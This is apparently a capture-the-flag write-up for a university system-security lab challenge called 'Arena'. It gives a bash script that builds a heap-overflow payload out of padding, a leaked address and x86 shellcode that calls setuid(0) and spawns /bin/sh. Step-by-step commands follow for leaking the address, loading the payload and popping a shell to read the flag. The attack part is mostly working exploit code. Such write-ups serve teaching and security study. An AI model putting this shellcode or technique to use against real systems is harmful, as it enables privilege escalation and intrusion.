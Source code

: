 
# CTF 6 - Arena

## SETUP

1. Deploy your challenge instance
1. Open ***2 Terminals*** and connect to your instance with:

    ``` bash
    ssh {unix_username}@syssec-lab.s3.eurecom.fr -p {port_number}
    ```

1. Create an empty weapon file

    ```bash
    touch weapons
    ```

1. Create a file called "gen_weapon"

    ```bash
    vi gen_weapons
    ```

1. Copy the following code into "gen_weapon"

    ```bash
    if [ $# -eq 0 ]; then
        echo "Usage: $0 <hex_address>"
        exit 1
    fi

    hex_address="$1"

    hex_address="${hex_address#0x}"

    hex_address=$(printf "%x\n" $((16#${hex_address} + 4)))

    if [ ${#hex_address} -eq 7 ]; then
        hex_address="0${hex_address}"
    fi


    little_endian=""
    for ((i = ${#hex_address} - 2; i >= 0; i -= 2)); do
        little_endian="${little_endian}\x${hex_address:i:2}"
    done

    padding_length=8186

    shellcode="\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"

    padding=$(printf 'A%.0s' $(seq "$padding_length"))

    exploit_string="98 99 $padding$little_endian$shellcode"

    echo -e "$exploit_string" > weapons
    ```

## ATTACK

1. In **Terminal 1** run the ***arena*** program

    ```bash
    ./arena/arena weapons
    ```

1. Copy paste the content of **[`player`](players)** in the terminal to create 1251 players.

    You will get the following message containing an ***address***.

    > Too many players... Kicking player '{name_of_the_player}' (0x923f470)  
    Give me a name (23 chars max): Give me a punchline (8191 chars max): Choose a strategy (1: cunning, 2: dumb, 3: blind):

    Then enter an invalide strategy or just press enter:

    > Unknown strategy. Aborting...

1. In **Terminal 2** run gen_weapons with the previous address

    ```bash
    bash gen_weapons 0x923f470
    ```

1. Then in **Terminal 1**:

    1. Press 1 to load weaponry

        ```bash
        What do you want to do? (1: load weaponry, 2: add new player, 3: fight, 4: quit) 1

        1 weapons loaded!
        ```

    1. Press 3 to start the fight. The figh migh end without popping the shell. In this case press 3 again to start the fight until the shell appear

    Once you get the shell, you can cat the flag

    ```console
    # cat arena/flag
    ```
